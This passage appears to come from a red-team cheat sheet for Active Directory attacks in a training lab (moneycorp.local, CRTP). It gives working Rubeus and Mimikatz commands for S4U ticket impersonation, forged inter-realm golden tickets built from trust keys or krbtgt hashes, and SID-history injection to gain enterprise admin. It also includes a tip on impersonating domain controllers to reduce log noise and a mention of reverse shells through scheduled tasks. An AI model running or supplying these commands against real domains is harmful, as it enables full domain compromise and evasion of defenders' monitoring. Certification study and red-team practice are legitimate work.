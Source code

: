 ```
.\Rubeus.exe s4u /user:InconspicuousMachineAccount$ /rc4:3644AC5E3D9441CCBCEF08CBAF98E910 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv01.corp1.com /ptt 
```

### Abusing domain trust

Must be run with DA privileges.

#### Using domain trust key

From the DC, dump the hash of the `currentdomain\targetdomain$` trust account using Mimikatz (e.g. with LSADump or DCSync). Then, using this trust key and the domain SIDs, forge an inter-realm TGT using Mimikatz, adding the SID for the target domain’s enterprise admins group to our ‘SID history’.

```
kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:e4e47c8fc433c9e0f3b17ea74856ca6b /user:Administrator /service:krbtgt /target:moneycorp.local /ticket:c:\ad\tools\mcorp-ticket.kirbi 
```

Pass with Rubeus.

> Make sure you have the right version of Rubeus. For some reason, some of my compiled binaries were giving the error `KDC_ERR_WRONG_REALM`, while the CRTP-provided version worked without issue.

```
.\Rubeus.exe asktgs /ticket:c:\ad\tools\mcorp-ticket.kirbi /service:LDAP/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt 
```

We can now DCSync the target domain (see below).

#### Using krbtgt hash

From the DC, dump the krbtgt hash using e.g. DCSync or LSADump. Then, using this hash, forge an inter-realm TGT using Mimikatz, as with the previous method.

Use a SID History (`/sids`) of `*-516` and `S-1-5-9` to disguise as the Domain Controllers group and Enterprise Domain Controllers respectively, to be less noisy in the logs.

```
kerberos::golden /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /user:dcorp-dc$ /groups:516 /ptt 
```

> If you are having issues creating this ticket, try adding the ‘target’ flag, e.g. `/target:moneycorp.local`.

Alternatively, generate a domain admin ticket with SID history of EA group.

```
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /sids:S-1-5-21-280534878-1496970234-700767426-519 /ptt 
```

We can now immediately DCSync the target domain, or get a reverse shell using e.g. scheduled tasks.
